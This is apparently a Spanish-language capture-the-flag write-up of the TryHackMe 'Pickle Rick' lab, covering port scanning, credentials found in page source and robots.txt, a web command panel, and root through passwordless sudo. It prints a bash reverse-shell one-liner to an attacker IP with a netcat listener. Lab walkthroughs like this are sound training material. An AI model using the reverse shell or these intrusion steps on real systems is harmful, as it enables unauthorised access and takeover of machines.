 ```yaml
---
title: "Pickle Rick - Try Hack Me"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/PickleRick/data/pickleRick.png?raw=true"
  teaser_home_page: true
  icon: "assets/images/icons/TryHackMe.png"
categories:
  - Writeup
  - TryHackMe
tags:
  - Enumeración
  - Bash
---
```


<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/PickleRick/data/pickleRickTHMpng.png?raw=true">
</p>

La máquina **Pickle Rick** es una máquina virtual vulnerable de la plataforma **Try Hack Me** con un nivel de dificultad **facil**  desarrollada por **tryhackme** y publicada **10 de marzo del 2019** con un sistema operativo **Linux**.

# Port Scan

  Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.197.4]** utilizando los parámetros:

  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22 y 80**:  

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/Ports.png">
  </p>


  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/PortServ.png">
  </p>

  Ya que el escaneo de versiones y servicios no mostró demasiado empezamos a enumerar un poco mas a nivel web así que entre a la pagina ya que cuenta con un servicio **http** por el puerto **80** al entrar pude ver lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/web.png">
  </p>

  Curios curioso vemos que esta hablando que necesita conseguir 3 ingredientes los cuales son las **flags** que buscamos y menciona que perdió una contraseña asi que puede ser una pista para nosotros, enumerando el código fuente de la pagina se puede ver a modo comentado lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/pass.png">
  </p>

  Ahora que tenemos un usuario el cual es **R1ckRul3s** podemos pensar que puede existir un login así que si hacemos enumeración web básica antes de emplear un fuzzing a nivel de rutas podemos probar con el recurso **Robots.txt**:


  En este caso el recurso **Robots.txt** si estaba disponible, recordar que el recursos **Robots.txt** es un recursos que nos muestra rutas existentes a nivel de directorios en las paginas web, la mayoría de las paginas lo deshabilitan ya que es una buena practica, en este caso no se deshabilitó y lo podemos usar para encontrar directorios o recursos sin necesidad de hacer fuerza bruta.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/wubba.png">
  </p>

  Vemos que tiene un recurso llamado **"Wubbalubbadubdub"** pero vemos que si entramos por la pagina web a este supuesto subdirectorio nos marca como **error 404** el cual indica que no existe, ya que vimos esto intentamos buscar otras formas de encontrar rutas así que si buscamos algo clásico como **"login.php"** puede y encontremos algo:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/log.png">
  </p>

  Excelente ahora que tenemos un login podemos usar la credencial de usuario que encontramos en el código fuente y ya que lo que encontramos en Robots no fue un directorio lo usaremos como contraseña:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/webcmd.png">
  </p>

# Lateral Movement

  Super bien podemos ver que tenemos un panel el cual se llama **"Command Panel"** lo que es más que obvio que es una gran pista, ingreso un **"whoami"** y vemos que nos responde la maquina como el usuario **"www-data"**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/whoami.png">
  </p>

  Así que si vemos que tenemos ejecución de comando pues entonces nos entablaremos una shell.
  Para esto me pondré por el puerto 443 en escucha con el comando ```nc -nlvp 443``` y en la web pondré lo siguiente:

  ```bash
    bash -c 'bash -i >& /dev/tcp/[Your IP]/443 0>&1'
  ```

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/shell1.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/shell2.png">
  </p>

  Como vemos en nuestra consola ya tenemos acceso a la maquina y vemos que el mismo directorio se encuentra la primer **flag** y yendo a la ruta **/home** veo que hay dos usuarios, la carpeta de usuario **rick** se puede encontrar la segunda flag:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/flag1.png">
  </p>
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/flag2.png">
  </p>

# Privilege escalation

  Ahora es momento de escalar privilegios para eso vemos si el usuario en el que actualmente estamos tiene algún permiso especial a nivel de **sudo** sin proporcionar contraseña eso lo vemos con el comando ```sudo -l```.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/sudo.png">
  </p>

  Y sorprendentemente tenemos a nivel de **sudo** sin proporcionar contraseña permisos absolutos así que podemos spawnearemos una shell como **root** con el siguiente comando:

  ```bash
  sudo /bin/bash
  ```
  Y como vemos ya somos root en la maquina a si que nos dirigimos al directorio de **root** y podemos visualizar la ultima **flag** y así concluyendo esta maquina.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/root.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/flag3.png">
  </p>
